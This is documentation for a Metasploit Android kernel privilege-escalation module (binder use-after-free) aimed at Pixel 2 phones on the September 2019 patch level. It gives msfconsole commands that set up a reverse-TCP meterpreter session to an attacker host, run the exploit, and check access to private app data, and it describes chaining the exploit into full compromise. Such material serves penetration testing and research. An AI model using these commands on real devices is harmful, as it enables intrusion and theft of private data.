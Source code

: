 ## Vulnerable Application

This exploit module currently targets a very specific build of Android on
specific set of hardware targets:

- Google Pixel 2 or Pixel XL 2 phones running the September 2019 security patch
  level.

This exploit module would have to be retargeted for any other potentially
vulnerable build or hardware target.

One difficult issue with the Google Pixel 2 is that, while many Google phones
have an unlocked bootloader, making it easy to download older Android revisions,
the latest Pixel 2 updates show this feature has been disabled or broken
[older revisions to the device firmware](https://developers.google.com/android/images).
This may be a firmware bug or intentional, but Google themselves do not appear
to have an answer
[for the problem](https://support.google.com/pixelphone/thread/14920605?hl=en).
For testing, you may need a phone never updated to a later Android revision.

## Verification Steps

- Get an android meterpreter session on a Pixel 2 or Pixel XL 2 with the right
  kernel:

`msfconsole -qx "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set lhost $LHOST; set lport 4444; set ExitOnSession false; run -j`

- Currently this only works on the Pixel 2 (and Pixel 2 XL) with september 2019
  Security patch level. Validate the kernel version looks like this:

```
uname -a
Linux localhost 4.4.177-g83bee1dc48e8 #1 SMP PREEMPT Mon Jul 22 20:12:03 UTC 2019 aarch64
```

- Run the exploit:

```
msf5 exploit(multi/handler) > use exploit/android/local/binder_uaf
msf5 exploit(android/local/binder_uaf) > set LHOST IPADDR
msf5 exploit(android/local/binder_uaf) > set LPORT 4448 (different from your Android meterpreter port)
LPORT => 4448
msf5 exploit(android/local/binder_uaf) > set SESSION -1
SESSION => -1
msf5 exploit(android/local/binder_uaf) > run
```

- **Verify** the new session can read and write private application data (in
  /data/data/..../)

## Scenarios

This module illustrates a privesc that, when chained with other exploit vectors,
could turn an unprivileged sandboxed exploit into a sandbox escape and system
compromise. Note that the target application may need to match the kernel CPU
type, so for instance a 64-bit Chrome would need to be targeted with a 64-bit
kernel.
